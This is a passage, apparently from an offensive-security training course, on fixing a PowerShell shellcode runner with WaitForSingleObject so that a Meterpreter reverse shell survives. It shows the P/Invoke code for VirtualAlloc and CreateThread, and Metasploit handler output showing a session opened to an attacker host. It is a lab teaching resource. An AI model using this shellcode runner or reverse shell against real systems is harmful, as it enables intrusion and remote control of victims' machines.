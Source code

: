 To solve this, we must instruct PowerShell to delay termination until our shell fully executes. We'll use the Win32 [_WaitSingleObject_ API](https://docs.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject) to pause the script and allow Meterpreter to execute.

We'll update our shellcode runner PowerShell script to import _WaitForSingleObject_ using P/Invoke and _Add-Type_ and invoke it as shown in these highlighted sections:

```
$Kernel32 = @"
using System;
using System.Runtime.InteropServices;

public class Kernel32 {
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, 
        uint flAllocationType, uint flProtect);
        
    [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, 
        uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, 
            uint dwCreationFlags, IntPtr lpThreadId);
            
    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, 
        UInt32 dwMilliseconds);
}
"@

Add-Type $Kernel32
...

[Kernel32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

> Listing 40 - Importing WaitSingleObject and calling it to stop PowerShell from terminating

Let's discuss this addition. When _CreateThread_ is called, it returns a handle to the newly-created thread. We provided this handle to _WaitForSingleObject_ along with the time to wait for that thread to finish. In this case, we have specified 0xFFFFFFFF, which will instruct the program to wait forever or until we exit our shell. Notice that we have explicitly performed a type cast on this value to an unsigned integer with the _\[uint32]_ static .NET type because PowerShell only uses signed integers.

We again used _Here-Strings_ to assign a block of text to the _$Kernel32_ variable. Inside our class, we imported three Windows APIs. We then used _Add-Type_ to compile the public _Kernel32_ class that we invoked when using the APIs. This addition should halt the premature termination of PowerShell.

We can now update the PowerShell shellcode runner hosted on our Kali Linux web server and rerun the VBA code. This should result in a reverse Meterpreter shell. Very nice!

```
[*] Started HTTPS reverse handler on https://192.168.119.120:443
[*] https://192.168.119.120:443 handling request from 192.168.120.11; (UUID: pm1qmw8u) Staging x64 payload (207449 bytes) ...
[*] Meterpreter session 1 opened (192.168.119.120:443 -> 192.168.120.11:49678)

meterpreter > 
```
